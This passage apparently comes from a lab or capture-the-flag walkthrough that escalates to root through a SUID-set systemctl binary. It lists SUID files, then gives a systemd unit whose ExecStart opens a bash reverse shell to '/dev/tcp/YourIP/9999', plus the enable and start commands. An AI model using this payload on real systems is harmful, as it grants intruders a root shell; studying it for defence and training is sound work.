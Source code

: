Here is the output

```
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
```

The binary which stands out to me is systemctl because I haven't seen it ever having suid bit set. systemctl is used to manage services like starting/stopping them. This means that since this binary has suid bit set we can run services with root privilege. Do you smell that? It's the sweet sweet smell of privilege escalation...

I knew that I can run services with root privileges but which one? while finding the answer to this I stumble across this [awesome article](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49). It has exactly what I want to do. So I learned today that we can make our own services and run them! Here is the service I created while reading the article:

```
[Unit]
Description=rootertooterbaby

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YourIP/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

and save it as something like rooter.service

Making your own service is pretty easy. All of them follow this exact pattern with some additional options. 
Now I wasn't able to create the file on the system so I made it on my machine first and transferred it to victim using a python server and wget.

Then all I had to do was start a netcat listener on the port 9999 and run my custom service using:

```
$ /bin/systemctl enable /tmp/rooter.service
/bin/systemctl enable /tmp/rooter.service
Created symlink from /etc/systemd/system/multi-user.target.wants/rooter.service to /tmp/rooter.service.
Created symlink from /etc/systemd/system/rooter.service to /tmp/rooter.service.
$ /bin/systemctl start rooter
/bin/systemctl start rooter
```
